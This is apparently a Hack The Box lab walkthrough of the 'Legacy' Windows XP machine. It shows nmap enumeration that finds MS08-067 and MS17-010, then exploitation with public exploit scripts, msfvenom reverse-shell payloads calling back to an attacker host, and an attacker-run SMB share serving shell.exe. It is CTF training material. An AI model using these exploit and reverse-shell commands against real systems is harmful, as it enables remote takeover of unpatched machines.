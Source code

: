 # \_\__LeeCyberSec_\_\_
| About Author | **Hack The Box Walkthrough** |
| :-------------------------------- |-------------------------------|
| **I'm Hades - Red/purple teamer** <br> `Email:` [tuvn@protonmail.com](mailto:tuvn@protonmail.com) <br> <br> `Platform:` [HackTheBox](https://www.hackthebox.eu/profile/167764) \|\| [TryHackMe](https://tryhackme.com/p/leecybersec) \|\| [PentesterLab](https://pentesterlab.com/profile/leecybersec) <br> <br> <img src="http://www.hackthebox.eu/badge/image/167764" alt="Hack The Box"> <br> <br> *Support me at [buymeacoffee](https://www.buymeacoffee.com/leecybersec)* <br> <a href='https://www.buymeacoffee.com/leecybersec' target="blank"><img src="images/bymeacoffee.png" width="200"/></a> | <img src="images/1.png" width="555"/></a> |

## Information Gathering

### Openning Services

+ SMB Windows XP

```
### Port Scanning ############################
nmap -sS -Pn -p- --min-rate 1000 10.10.10.4
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.

[+] Openning ports: 139,445,3389

### Services Enumeration ############################
nmap -sC -sV -Pn 10.10.10.4 -p139,445,3389
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-27 16:50 +07
Nmap scan report for 10.10.10.4
Host is up (0.26s latency).

PORT     STATE  SERVICE       VERSION
139/tcp  open   netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open   microsoft-ds  Windows XP microsoft-ds
3389/tcp closed ms-wbt-server
Service Info: OSs: Windows, Windows XP; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_xp

Host script results:
|_clock-skew: mean: 5d00h29m07s, deviation: 2h07m16s, median: 4d22h59m07s
|_nbstat: NetBIOS name: LEGACY, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:b9:e0:2d (VMware)
| smb-os-discovery: 
|   OS: Windows XP (Windows 2000 LAN Manager)
|   OS CPE: cpe:/o:microsoft:windows_xp::-
|   Computer name: legacy
|   NetBIOS computer name: LEGACY\x00
|   Workgroup: HTB\x00
|_  System time: 2021-05-02T14:49:37+03:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_smb2-time: Protocol negotiation failed (SMB2)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 60.45 seconds
```

### Server Message Block

Using `nmap` to scan smb vulnerability:

```
┌──(Hades㉿10.10.14.5)-[0.6:18.5]~/scripting
└─$ nmap -p 139,445 --script smb-vul* 10.10.10.4 -Pn
<snip>
PORT    STATE SERVICE
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds

Host script results:
| smb-vuln-ms08-067: 
|   VULNERABLE:
|   Microsoft Windows system vulnerable to remote code execution (MS08-067)
|     State: LIKELY VULNERABLE
|     IDs:  CVE:CVE-2008-4250
|           The Server service in Microsoft Windows 2000 SP4, XP SP2 and SP3, Server 2003 SP1 and SP2,
|           Vista Gold and SP1, Server 2008, and 7 Pre-Beta allows remote attackers to execute arbitrary
|           code via a crafted RPC request that triggers the overflow during path canonicalization.
<snip>
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
<snip>
```

## Foothold

### Microsoft Windows Server 2000/2003 - Code Execution (MS08-067)

Using exploit <a href='https://raw.githubusercontent.com/jivoi/pentest/master/exploit_win/ms08-067.py' target="blank">ms08-067.py</a> to get reverse shell in the server.

Modify exploit by `REPLACE SHELLCODE with shellcode generated by msfvenom` with the bad chars: `"\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40"`

``` bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.4 LPORT=443 EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f c -a x86 --platform windows
```

Convert `ms08-067.py` to python3

```
2to3 ms08-067.py
```

Execute exploit

```bash
python3 ms08-067.py 10.10.10.4 6 445 > /dev/null
```

![](images/2.png)

### Microsoft Security Bulletin MS17-010 (EternalBlue/MS17-010)

[*Poc code here*](https://github.com/leecybersec/walkthrough/tree/master/hackthebox/legacy)

Using exploit `send_and_execute.py` at <a href='https://github.com/helviojunior/MS17-010' target="blank">https://github.com/helviojunior/MS17-010</a>

Generate reverse shell file `shell.exe` in the same payload's folder using `msfvenom`.

``` bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.4 LPORT=443 EXITFUNC=thread -f exe -a x86 --platform windows -o shell.exe
```

Execute exploit

```bash
python send_and_execute.py 10.10.10.4 shell.exe > /dev/null
```

![](images/5.png)

I also custom exploit file by input command to execute.

```
sudo smbserver.py public . > /dev/null
```

```
python cmd.py 10.10.10.4 '\\10.10.14.3\public\shell.exe' > /dev/null
```

![](images/6.png)

### Transfer and execute whoami.exe

Create smb server in Kali Machine to check privilege.

```
sudo smbserver.py public /usr/share/windows-resources/binaries/ > /dev/null
```

At the client, execute command `whoami`

```
\\10.10.14.3\public\whoami.exe
```

## Reference

[worawit/MS17-010](https://github.com/worawit/MS17-010)

<a href='https://0xdf.gitlab.io/2019/02/21/htb-legacy.html' target="blank">HTB: Legacy of 0xdf hacks stuff</a>

<a href='https://pycryptodome.readthedocs.io/en/latest/src/installation.html' target="blank">Install PyCrypto library</a>